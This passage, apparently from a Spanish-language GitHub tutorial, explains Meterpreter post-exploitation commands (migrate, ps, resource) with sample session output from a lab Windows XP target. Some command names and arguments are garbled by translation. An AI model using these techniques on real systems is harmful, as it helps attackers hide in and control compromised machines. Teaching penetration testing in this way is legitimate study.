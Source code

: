 	meterpreter > run post/windows/manage/migrate 
	
	[*] Running module against V-MAC-XP
	[*] Current server process: svchost.exe (1076)
	[*] Migrating to explorer.exe...
	[*] Migrating into process ID 816
	[*] New server process: Explorer.EXE (816)
	meterpreter >


- PS

El comando ps muestra una lista de procesos en ejecución en el objetivo.

	meterpreter > ps
	
	Process list
	============
	
	    PID   Name                  Path
	    ---   ----                  ----
	    132   VMwareUser.exe        C:\Program Files\VMware\VMware Tools\VMwareUser.exe
	    152   VMwareTray.exe        C:\Program Files\VMware\VMware Tools\VMwareTray.exe
	    288   snmp.exe              C:\WINDOWS\System32\snmp.exe
	...snip...


- RESOURCE

El comando  resource ejecutará las instrucciones de Meterpreter ubicadas dentro de un archivo de texto. Con una entrada por línea,  resource ejecutará cada línea en secuencia. Esto puede ayudar a automatizar las acciones repetitivas realizadas por un usuario.

De forma predeterminada, los comandos se ejecutarán en el directorio de trabajo actual (en la máquina de destino) y el archivo de recursos en el directorio de trabajo local (la máquina atacante). 

	meterpreter > recurso 
	Uso: recurso ruta1 ruta2 Ejecutar los comandos almacenados en los archivos proporcionados.
	meterpreter>


ARGUMENTOS:

- ruta1 : la ubicación del archivo que contiene los comandos para ejecutar.
- Path2Run : la ubicación donde ejecutar los comandos que se encuentran dentro del archivo

Ejemplo de uso:


	┌─[root@cs-academy]─[~]
	└──╼ # cat resource.txt
	ls
	background
	┌─[root@cs-academy]─[~]
	└──╼ #
	Ejecutando comando de recursos:
	meterpreter> > resource resource.txt
	[*] Reading /root/resource.txt
	[*] Running ls
	